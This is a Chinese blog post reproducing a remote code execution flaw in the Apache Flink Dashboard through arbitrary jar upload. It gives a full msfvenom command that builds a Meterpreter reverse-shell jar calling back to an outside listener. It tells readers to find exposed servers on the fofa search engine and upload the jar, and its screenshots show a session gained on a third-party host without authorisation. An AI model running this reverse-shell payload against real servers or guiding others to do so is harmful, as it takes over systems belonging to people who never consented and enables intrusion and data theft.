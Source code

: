 ```yaml
---
layout:     post
title:    Apache Flink RCE 复现
subtitle:   Apache Flink RCE 复现
date:       2019-11-14
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 漏洞复现
---
```

# Apache Flink RCE 复现

## 简介
Flink核心是一个流式的数据流执行引擎，其针对数据流的分布式计算提供了数据分布、数据通信以及容错机制等功能。攻击者可直接在Apache Flink Dashboard页面中上传任意jar包，从而达到远程代码执行的目的。  
## 复现  
先用msf生成jar包：  
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f jar > nakumura.jar
```
随便上fofa上找几个测试下，挺多的。  
![191114_1](/img/191114_fofa.png)  
然后点开一个，点 submit new job。  
![191114_2](/img/191114_uploadjar.png)  
emmm，已经被人玩坏了，点下add new+，上传jar包,然后submit一下就可以执行。  
![191114_3](/img/191114_submit.png)  
执行前记得先开启msf的监听。  
submit一下,返回。  
![191114_4](/img/191114_meterpreter.png)  

## 修复方式  
等官网出补丁或者新版本后及时更新
